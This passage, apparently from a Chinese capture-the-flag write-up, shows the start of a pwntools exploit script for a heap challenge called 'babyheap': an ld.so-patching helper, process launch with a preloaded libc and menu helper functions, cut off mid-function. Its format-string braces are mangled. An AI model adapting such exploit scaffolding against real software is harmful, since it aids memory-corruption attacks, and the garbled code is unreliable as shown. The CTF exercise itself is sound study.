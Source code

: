 ### <a class="reference-link" name="%E5%AE%8C%E6%95%B4exp"></a>完整exp

```
#!usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
import sys, os
def change_ld(binary, ld):
    """
    Force to use assigned new ld.so by changing the binary
    """
    if not os.access(ld, os.R_OK): 
        log.failure("Invalid path `{``}` to ld".format(ld))
        return None


    if not isinstance(binary, ELF):
        if not os.access(binary, os.R_OK): 
            log.failure("Invalid path `{``}` to binary".format(binary))
            return None
        binary = ELF(binary)


    for segment in binary.segments:
        if segment.header['p_type'] == 'PT_INTERP':
            size = segment.header['p_memsz']
            addr = segment.header['p_paddr']
            data = segment.data()
            if size &lt;= len(ld):
                log.failure("Failed to change PT_INTERP from `{``}` to `{``}`".format(data, ld))
                return None
            binary.write(addr, ld.ljust(size, ''))
            if not os.access('/tmp/pwn', os.F_OK): os.mkdir('/tmp/pwn')
            path = '/tmp/pwn/`{``}`_debug'.format(os.path.basename(binary.path))
            if os.access(path, os.F_OK): 
                os.remove(path)
                info("Removing exist file `{``}`".format(path))
            binary.save(path)    
            os.chmod(path, 0b111000000) #rwx------
    success("PT_INTERP has changed from `{``}` to `{``}`. Using temp file `{``}`".format(data, ld, path)) 
    return ELF(path)
#example
elf = change_ld('./babyheap', './ld-2.28.so')
p = elf.process(env=`{`'LD_PRELOAD':'./libc-2.28.so'`}`)
log.info('PID:'+str(proc.pidof(p)[0]))
context.log_level = 'debug'
raw_input(' ')

def add(size):
    p.recvuntil('Command')
    p.sendline('1')
    p.recvuntil('Size')
    p.sendline(str(size))    

def edit(idx,size,content):
    p.recvuntil('Command')
    p.sendline('2')
    p.recvuntil('Index')
    p.sendline(str(idx))
    p.recvuntil('Size')
```